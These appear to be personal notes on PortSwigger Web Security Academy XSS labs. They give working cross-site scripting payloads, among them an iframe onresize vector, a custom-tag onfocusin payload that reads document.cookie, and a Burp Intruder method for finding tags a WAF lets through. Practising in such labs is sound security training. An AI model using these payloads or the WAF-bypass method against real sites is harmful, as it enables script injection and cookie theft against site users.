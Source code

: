 ##### Onresize & onload
```
<iframe src="https://0a130068037f074c80268b4800b10097.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>
```
##### ByPass WAF XSS
```

Inject a standard XSS vector, such as:
<img src=1 onerror=print()>
Observe that this gets blocked. In the next few steps, we'll use use Burp Intruder to test which tags and attributes are being blocked.
Open Burp's browser and use the search function in the lab. Send the resulting request to Burp Intruder.
In Burp Intruder, in the Positions tab, replace the value of the search term with: <>
Place the cursor between the angle brackets and click "Add §" twice, to create a payload position. The value of the search term should now look like: <§§>
Visit the XSS cheat sheet and click "Copy tags to clipboard".
In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".
When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the body payload, which caused a 200 response.

Go back to the Positions tab in Burp Intruder and replace your search term with:
<body%20=1>
Place the cursor before the = character and click "Add §" twice, to create a payload position. The value of the search term should now look like: <body%20§§=1>
Visit the XSS cheat sheet and click "copy events to clipboard".
In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack".
When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the onresize payload, which caused a 200 response.

Go to the exploit server and paste the following code, replacing YOUR-LAB-ID with your lab ID:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
Click "Store" and "Deliver exploit to victim".
```

##### Customs Tags
Searching for what custom tag executes an xss on https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#special-tags
```
<xss autofocus tabindex=1 onfocusin=alert(1)></xss>
```
Deliver the exploit
```
<iframe src="https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>" onload=this.style.width='100px'>
```
But iframe shows this
![[Pasted image 20231020110719.png]]
So we try another
```
<a href=# onclick="window.open('https://0aa8009904d13c3980295dc300300029.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>')">XSS</a>"
```
Tried but requires use interaction
So we need to find something that pops imediately
Maybe a redirect?
![[Pasted image 20231020111212.png]]
Sucess
```
<script>
```